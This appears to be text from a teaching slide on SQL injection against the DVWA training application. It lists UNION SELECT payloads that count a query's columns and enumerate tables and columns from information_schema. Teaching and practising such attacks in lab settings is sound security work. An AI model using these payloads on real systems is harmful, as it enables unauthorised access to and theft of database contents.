

# Enumerate number of columns read from a DB
‘ UNION ALL SELECT 1,2,3 --
List Tables
' UNION ALL SELECT table_name, table_schema FROM information_schema.tables --
List Columns
' UNION ALL SELECT column_name, CONCAT(table_schema, ' ', table_name) FROM information_schema.columns --
' UNION ALL SELECT column_name, CONCAT(table_schema, ' ', table_name) FROM information_schema.columns WHERE table_schema=‘dvwa’ --